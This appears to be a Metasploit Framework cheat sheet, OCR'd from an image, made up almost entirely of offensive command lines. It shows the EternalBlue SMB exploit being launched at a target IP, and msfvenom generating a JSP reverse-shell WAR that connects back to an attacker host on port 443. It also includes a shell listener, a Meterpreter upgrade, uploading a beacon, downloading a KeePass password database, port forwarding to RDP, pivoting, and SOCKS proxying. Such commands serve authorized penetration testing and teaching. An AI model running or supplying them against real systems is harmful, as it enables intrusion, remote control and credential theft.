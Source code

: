 # Metasploit Framework

## Start Metasploit, search & use exploit:

```
# msfconsole
msf > search eternalblue
msf > use exploit/windows/smb/ms17_…
msf exploit(…) > show options
msf exploit(…) > set TARGET 100.76.2.3
msf exploit(…) > exploit
```

## Generate reverse shell (WAR):

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip address> LPORT=443 -f war > sh.war
```

## Reverse shell listener:

```
msf > use exploit/multi/handler
msf > set payload linux/x64/shell_reverse_tcp
msf > set LHOST 100.76.2.3 # attacker
msf > set LPORT 443
msf > exploit
```

## Upgrade to Meterpreter:

```
background # or press Ctrl-Z ^Z
background session 1? [y/N] y
msf > sessions # list sessions
msf > sessions -u 1 # upgrade
msf > sessions 2 # interact
meterpreter > sysinfo # use it
```

## File exchange / execute binary:

```
meterpreter > upload beacon.exe
meterpreter > download c:\keepass.kdb
meterpreter > execute -i -f /your/bin
```

## Port forwarding to localhost:

```
meterpreter > portfwd add -l 2323 -p 3389 -r 10.5.23.23
```

## Background Meterpreter session:

```
meterpreter > background
```

## Pivoting through existing Meterpreter session:

```
msf > use post/multi/manage/autoroute
msf > set session 2 # meterpreter session
msf > run
msf > route
```

## SOCKS via Meterpreter (requires autoroute):

```
msf > use auxiliary/server/socks4a
msf > set SRVPORT 8080
msf > run
```

## Configure ProxyChains:

```
# vi /etc/proxychains.conf
[...]
socks4 127.0.0.1 1080
```

## Connect through SOCKS proxy:

```
# proxychains ncat 172.23.5.42 2305
```
